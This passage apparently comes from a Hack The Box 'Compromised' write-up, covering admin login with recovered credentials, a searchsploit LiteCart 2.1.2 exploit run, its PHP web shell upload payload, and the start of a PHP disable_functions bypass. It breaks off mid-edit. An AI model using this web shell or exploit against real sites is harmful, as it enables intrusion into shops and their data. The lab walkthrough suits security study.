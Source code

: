 we got a password and username also on web page we have an login page we can try to login. 

```
User: admin Passwd: theNextGenSt0r3!~
```

![Desktop View]({{ "/assets/img/htb-machines/compromised/main2.png" | relative_url }})


Logged in admin panel and in the bottom we can see version of web page  

![Desktop View]({{ "/assets/img/htb-machines/compromised/8.png" | relative_url }})

<strong><span style="color:#ff5555">LiteCart 2.1.2</span></strong>

Searching exploit of LiteCart Version by searchsploit 

![Desktop View]({{ "/assets/img/htb-machines/compromised/9.png" | relative_url }})

now we can exploit litecart. Run the exploit 

```python 45267.py -t http://10.10.10.207/shop/admin/ -p 'theNextGenSt0r3!~' -u admin```

got noting we probably need to edit the script 

edit exploit code so we can see php version -

```
files = {
        'vqmod': (rand + ".php", "<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); } ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
```

```
to this 
`files = {
        'vqmod': (rand + ".php", "<?php phpinfo(); ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
}
```    

also remove print r.content from line72 

run the exploit now and our shell is uploaded

![Desktop View]({{ "/assets/img/htb-machines/compromised/10.png"}})

now we can see php versionin disablefunctions we can see a lot functions we can't execute 

![Desktop View]({{ "/assets/img/htb-machines/compromised/main3.png" | relative_url }})

and the php version is vunlreable and there is an bypass available [Link](https://packetstormsecurity.com/files/154728/PHP-7.3-disable_functions-Bypass.html) we also need to modify python-exploit and bypass.php. 

edit bypass  

```
to 
pwn("uname -a");
